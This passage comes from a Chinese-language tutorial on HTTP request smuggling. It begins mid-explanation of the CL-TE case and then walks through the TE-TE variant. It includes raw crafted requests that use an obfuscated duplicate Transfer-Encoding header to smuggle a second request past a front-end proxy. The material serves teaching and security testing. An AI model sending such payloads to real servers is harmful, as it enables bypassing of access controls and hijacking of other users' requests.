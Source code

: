 就认为这个请求已经结束了。后面的数据就认为是另一个请求：

```bash
aPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

成功报错，造成 HTTP 请求走私。

#### TE-TE

TE-TE，当收到存在两个请求头的请求包时，前后端服务器都处理`Transfer-Encoding`请求头，确实是实现了 RFC 的标准。不过前后端服务器不是同一种。这就有了一种方法，我们可以对发送的请求包中的`Transfer-Encoding`进行某种混淆操作 (如某个字符改变大小写)，从而使其中一个服务器不处理`Transfer-Encoding`请求头。在某种意义上这还是`CL-TE`或者`TE-CL`。  
**构造请求示例**：

```bash
POST / HTTP/1.1\r\n
Host: test.com\r\n
......
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
aPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```

**攻击流程**：  
前端服务器处理`Transfer-Encoding`，当其读取到

```bash
0\r\n
\r\n
```

认为是读取结束。  
此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器处理`Transfer-encoding`请求头，将`Transfer-Encoding`隐藏在服务端的一个`chain`中时，它将会回退到使用`Content-Length`去发送请求。读取到

```bash
5c\r\n
```

认为是读取完毕了。后面的数据就认为是另一个请求：

```bash
aPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```
